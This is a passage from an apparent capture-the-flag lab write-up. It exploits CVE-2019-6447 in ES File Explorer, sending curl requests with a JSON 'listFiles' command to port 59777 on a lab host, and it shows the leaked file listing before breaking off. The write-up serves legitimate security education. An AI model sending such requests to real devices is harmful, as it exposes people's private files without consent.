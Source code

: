 5555 came back filtered, which means I can't connect to it, but it's
different from all the rest of the ports. 5555 is the Android debug
(adb) port, so I'll keep that in mind.

## Shell as Kristi

### CVE-2019-6447

#### Manually

CVE-2019-6447 is really just that the ES File Explorer port gives access
to a lot of the system, and so if it can be contacted, a lot of
information will leak from the system. [This
GitHub](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln) has a
nice Python script, but I can also do it with `curl`.

Just requesting that port returns an error:



    oxdf@parrot$ curl 10.10.10.247:59777
    FORBIDDEN: No directory listing.



The service takes a JSON POST payload with commands like `listFiles`,
`listPics`, `listVideos`, etc.

`listFiles` returns a lot:



    oxdf@parrot$ curl 10.10.10.247:59777 -d '{"command": "listFiles"}'
    [
    {"name":"lib", "time":"3/25/20 05:12:02 AM", "type":"folder", "size":"12.00 KB (12,288 Bytes)", },  
    {"name":"vndservice_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"65.00 Bytes (65 Bytes)", }, 
    {"name":"vendor_service_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", },       
    {"name":"vendor_seapp_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
    {"name":"vendor_property_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"392.00 Bytes (392 Bytes)", }, 
    {"name":"vendor_hwservice_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
    {"name":"vendor_file_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"6.92 KB (7,081 Bytes)", }, 
    {"name":"vendor", "time":"3/25/20 12:12:33 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
    {"name":"ueventd.rc", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"5.00 KB (5,122 Bytes)", }, 
    {"name":"ueventd.android_x86_64.rc", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"464.00 Bytes (464 Bytes)", }, 
    {"name":"system", "time":"3/25/20 12:12:31 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
    {"name":"sys", "time":"6/26/21 03:03:38 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", },
    ...[snip]...
